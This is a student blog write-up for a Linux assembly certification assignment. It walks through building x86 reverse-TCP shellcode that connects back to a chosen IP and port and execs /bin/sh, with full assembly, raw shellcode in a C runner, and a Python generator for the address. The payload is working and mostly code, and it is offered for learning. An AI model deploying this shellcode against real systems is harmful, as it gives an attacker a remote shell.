

# SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 2
For the second assignment I need to solve the following tasks:
* Create a Shell_Bind_TCP shellcode
* Create a Shell_Reverse_TCP shellcode
    * Reverse connects to configured IP and Port
    * Execs Shell on incoming connection
* IP and Port should be easily configurable
___

</br>

This task is similar like [Assignment 1](../Assignment1/README.md). But for a reverse shell we need to create a socket and only use the connect function to connect back to the listener instead of the bind function. Then we need to duplicate file descripors and execute /bin/sh like before in the first assignment. So the functions to calls are:
* socketcall - socket
* socketcall - connect
* dup2
* execve

## socketcall - socket
The starting is the same like in the first assignment. First it's required to create the socket. If you need help here just go to the [first assignment](../Assignment1/README.md) where I explained this call more in depth.

## socketcall - connect
After that we need the connect function which is a little bit similar to the bind function we used before:
``` c
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
We know all the arguments from assignment 1 where we used them similiar. But this time we have to specify additionally to the port the IP to which we want to connect back in the argument addr. This is defined like the scheme here:
``` c
struct sockaddr_in {
               sa_family_t    sin_family; /* address family: AF_INET */
               in_port_t      sin_port;   /* port in network byte order */
               struct in_addr sin_addr;   /* internet address */
           }; 
```
So as address family we will set AF_INET and port we use 1337 which is specified in network byte order. Then the IP address to connect back also has to specified in network byte order. In this example we'll connect back to localhost 127.0.0.1 which is 0x0100007F in network byte order.
So in assembly first it's required to set the ebx register to 3 which we can achieve by increasing bl two times. Then for the struct we push the arguments in reverse order. So first the IP in network byte order then the port and then the address family. Then we again save the pointer to the top of these arguments in ecx. After that we need to specify the arguments for the connect function in reverse order on the stack. So this is first the length 16 (0x10) then the pointer to the previous arguments / sockaddr struct which is in ecx and then the sockfd from the previous calls. Then save the pointer to these arguments in ecx and finaly specify socketcall by setting eax to 0x66 and executing this syscall with int 0x80.

``` assembly
xor eax, eax
inc bl 
inc bl
      
push 0x0100007F
push word 0x3905 
push word 0x02
mov ecx, esp
push 0x10
push ecx
push edi
mov ecx, esp

mov al, 0x66
int 0x80;
```



## dup2 & execve 
The dup2 and execve calls are also the same as in the first assignment so there is the same code used like in the first assignment. If you don't know that they are doing please read [Assignment 1](../Assignment1/README.md).

## Executing the reverse shell
To test this we can run the compile.c script with the nasm file which will compile the assembly instructions to a runnable file. When executing this and setting a listener with netcat with nc -nlvp 1337 we can see that our reverse shell connects to the host and the shell is working:


We can also put the resulting shellcode in a c tool like we did in assignment 1 which you can see in the following:

``` c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\xb3\x01\x50\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x31\xc0\xfe\xc3\xfe\xc3\x68\x7f\x00\x00\x01\x66\x68\x05\x39\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\x89\xfb\x31\xc0\xb0\x3f\xcd\x80\x66\x49\x79\xf4\x31\xc0\x89\xc1\x89\xc2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

void main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

## Easily configurable Port and IP
Like in the first assignment I used python to achieve this. First we have to take a look where the IP and port is specified in our shellcode where we see that we first have the shellcode before the IP then 2 bytes instructions and then the port and at the end the rest of the shellcode. So I was splitting the shellcode in 3 parts in the python code. Then I check for arguments because I implemented the function to pass the IP and the port as arguments. After that we have the same convertion for the port to network byte order as in assignment 1. Then the spcified IP is also converted to network byte order by splitting the IP formatting it and set the order of the bytes. Then all the parts with IP and port are combined togehter:
``` python
#!/usr/bin/python3
import sys;
import socket;

shellcodeBeforeIP = "\\x31\\xc0\\x31\\xdb\\xb3\\x01\\x50\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x89\\xc7\\x31\\xc0\\xfe\\xc3\\xfe\\xc3\\x68"
shellcodeAfterIP = "\\x66\\x68"
shellcodeAfterPort = "\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x31\\xc9\\xb1\\x02\\x89\\xfb\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x66\\x49\\x79\\xf4\\x31\\xc0\\x89\\xc1\\x89\\xc2\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

if (len(sys.argv) == 1) or (len(sys.argv) == 2):
  port = 1337
  ip= "127.0.0.1"
else:
  ip = sys.argv[1]
  port = int(sys.argv[2])
  if port < 1 or port > 6555:
    print("Specify a real port")
    exit()

portNetwork = hex(socket.htons(int(port)))
portShell = "\\x"  + portNetwork[4:6] + "\\x" + portNetwork[2:4]

ipDivided = ip.split('.')
ipShell = ""
for byte in ipDivided:
  ipShell += "\\" + format(int(byte), '#04x')[1:]

shellcode = shellcodeBeforeIP + ipShell + shellcodeAfterIP + portShell + shellcodeAfterPort
if "00" in shellcode:
  print("There was a null byte found in the shellcode. Please change the port or the shellcode!")
print(shellcode)
```
To ensure this is also working I execute the python script with IP 127.0.0.1 and port 4444. Then I copied the shellcode in the C file and compiled and ran it. The output you see below:


## Whole Assembly code
``` assembly
global _start
_start:
    ;SOCKET
    ;Creating a socket socketcall with syscall
    ;int syscall(SYS_socketcall, int call, unsigned long *args);
    ;int socket(int domain, int type, int protocol);
    xor eax, eax
    xor ebx, ebx
    mov bl, 0x01            ;ebx = 1 --> call = socket

    push eax                ;push protocol = 0 for socket function
    push 0x01               ;push type = 1 --> SOCK_STREAM for socket function
    push 0x02               ;push domain = 2 --> AF_INET for socket function
    mov ecx, esp            ;save pointer to arguments in ecx
    mov al, 0x66            ;eax = 0x66 --> socketcall
    int 0x80                ;--> syscall = 0x80

    mov edi , eax           ;save socket for later usage in edi


    ;CONNECT
    ;int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    xor eax, eax
    inc bl 
    inc bl                  ;call --> bind = 3

                            ;struct sockaddr_in {...}
    push 0x0100007F         ;
    push word 0x3905        ;push sin_port in network byte order --> 0x3905 (=1337) 
    push word 0x02          ;push sin_family --> 2 --> AF_INET
    mov ecx, esp            ;save pointer to struct sockaddr_in in ecx
    push 0x10               ;push addrlen 0x10 (=16) for connect function
    push ecx                ;push pointer to struct sockaddr_in for connect function
    push edi                ;push sockfd for connect function
    mov ecx, esp            ;save pointer to arguments in ecx
    
    mov al, 0x66
    int 0x80;


    ;DUP2 
    ;int dup2(int oldfd, int newfd);
    xor ecx, ecx 

    mov cl, 2               ;write 2 in ecx for newfd parameter of dup2 

dupLoop:
    mov ebx, edi            ;write old socket in ebx for oldfd parameter of dup2
    xor eax, eax            
    mov al, 0x3f            ;eax = 0x3f --> dup2
    int 0x80 

    dec cx                  ;decrease ecx by 1 --> newfd    
    jns dupLoop             ;loop until sign / negative flag(so 2,1,0)


    ;EXECVE
    ;int execve(const char *pathname, char *const argv[], char *const envp[]);
    xor eax, eax
    mov ecx, eax            ;arg = ecx = 0
    mov edx, eax            ;envp = edx = 0
    push eax
                            ;//bin/sh
                            ;2f 2f 62 69 - 6e 2f 73 68
    push 0x68732f6e         
    push 0x69622f2f
    mov ebx, esp            ;pathname = ebx --> pointer to the stack to //bin/sh
    mov al, 0xb             ;eax = 0xb --> execve
    int 0x80
```